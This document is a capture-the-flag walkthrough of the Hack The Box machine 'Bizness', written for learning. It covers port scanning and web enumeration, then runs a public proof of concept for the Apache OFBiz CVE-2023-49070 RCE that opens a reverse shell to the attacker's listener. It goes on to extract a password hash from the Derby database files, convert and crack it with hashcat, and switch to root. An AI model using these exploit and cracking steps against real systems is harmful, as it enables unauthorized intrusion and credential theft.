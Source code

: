 ```yaml
---
title: Bizness
published: true
layout: post
---
```


<br />

---------------
Bizness is an easy Linux machine showcasing an Apache OFBiz pre-authentication, remote code execution (RCE) foothold, classified as [CVE-2023-49070](https://nvd.nist.gov/vuln/detail/CVE-2023-49070). The exploit is leveraged to obtain a shell on the box, where enumeration of the OFBiz configuration reveals a hashed password in the service's Derby database. Through research and little code review, the hash is transformed into a more common format that can be cracked by industry-standard tools. The obtained password is used to log into the box as the root user. 
<br />

<iframe style="aspect-ratio: 16 / 9; width: 65%; display: block; margin: auto;" src="https://www.youtube.com/embed/A3ZqEuVNlKY?si=uS_U2TZdcs1XjwvZ" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" referrerpolicy="strict-origin-when-cross-origin" allowfullscreen></iframe>

<br />

---------------------------------------------------
<br />

## Walkthrough

### Reconnaissance

We will start by **scanning protocolos** in the target machine, this can be divided in 3 phases:
1. Scan for **open ports**.
2. Scan for **services** in these open ports.
3. Scan for **vulnerabilities** in these services.

<br />

Let's start by scanning for **open ports**:

```bash
sudo nmap -sS 10.10.11.252 -p- -T4 --min-rate 5000 -oN all_tcp_ports.txt --open -n -Pn -vv
sudo nmap -sU 10.10.11.252 -p- -T4 --min-rate 5000 -oN all_udp_ports.txt --open -n -Pn -vv
```
<br />

There are **3 open ports**:
+ **22/tcp**
+ **80/tcp**
+ **443/tcp**

<br />

Let's check which **services** are running in these ports:

```bash
sudo nmap -sS 10.10.11.252 -p 22,80,443 -T4 --min-rate 5000 -oX open_tcp_ports.xml -oN open_tcp_ports.txt --version-all -n -Pn -A
```
<br />

These services are:
+ **22/tcp OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)**
+ **80/tcp nginx 1.18.0**
+ **443/tcp nginx 1.18.0**

<br />

We also find out a **hostname**, so let's add it:

```bash
echo '10.10.11.252 bizness.htb' | sudo tee --append /etc/hosts
```
<br />

Now we will seek for **vulnerabilities**:

```bash
sudo nmap -sS 10.10.11.252 -p 22,80,443 -T4 --min-rate 5000 --script="vuln or intrusive or discovery" -oN tcp_vulns.txt -oX tcp_vulns.xml -n -Pn
```
<br />

These scans didn't return any relevant information.
<br />

------
<br />
### Foothold

After inspecting the website and not finding anything interesting, we can start performing **directory and file enumeration**, let's look for something hidden:

```bash
feroxbuster --url https://bizness.htb -r --threads 25 -d 0 -o feroxbuster_dir_and_file_enum_443.txt -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -k
```

![](/assets/Bizness/1.png)
<br />
<br />

There seems to be **sub-sites**, let's inspect it:<br />
![](/assets/Bizness/2.png)
<br />
<br />

There seems to be a **version number** at the **bottom left**, let's look for vulnerabilities:<br />
![](/assets/Bizness/3.png)
<br />
<br />

The search leads me to this **GitHub repository**, which seems to have an script to gain a **reverse shell**, let's download it and try it:

```bash
git clone https://github.com/abdoghazy2015/ofbiz-CVE-2023-49070-RCE-POC.git
cd ofbiz-CVE-2023-49070-RCE-POC
wget https://github.com/frohoff/ysoserial/releases/latest/download/ysoserial-all.jar
python3 exploit.py https://bizness.htb shell 10.10.16.5:4444
```

![](/assets/Bizness/4.png)
<br />
<br />

We got the flag! Nice, let's escalate privileges.
<br />

------
<br />
### Privilege Escalation

After a deep enumeration, we could find some **.dat files** in an **/opt/ofbiz directory**, which are files that contain the data of a database, we can try to **extract strings** from it to identify **sensitive information**:

```bash
find /opt/ofbiz -name *.dat 2>/dev/null | xargs strings | grep -v /opt
```

![](/assets/Bizness/5.png)
<br />
<br />

We could find a password hash in this files, however it's **not usable in this format**, we can use automated tools to use it, however, let's do it manually.
<br />

This hash consists of three parts separated by dollar signs, $_Algorithm_\$_salt_\$*actual_hash*, we have to transform the actual hash from base64, in this case **base64 URL Safe**, which will return a binary output, so then to **hex output**. Now that we have this hash, we have to **append the salt** at the end for hashcat to use it:

```bash
echo -n 'uP0_QaVBpDWFeo8-dRzDqRwXQ2I' > hash
echo $(cat hash | tr '_-' '/+' | base64 -d | xxd -p):d > usable_hash
hashcat -m 120 usable_hash  /usr/share/wordlists/rockyou.txt
```

![](/assets/Bizness/6.png)
<br />
<br />

We cracked the hash!!! Let's try to use it to escalate privileges, but first let's **sanitize the shell**:

```bash
script /dev/null -c bash
reset xterm
export TERM=xterm
export SHELL=bash
su root
```

![](/assets/Bizness/7.png)
<br />
<br />
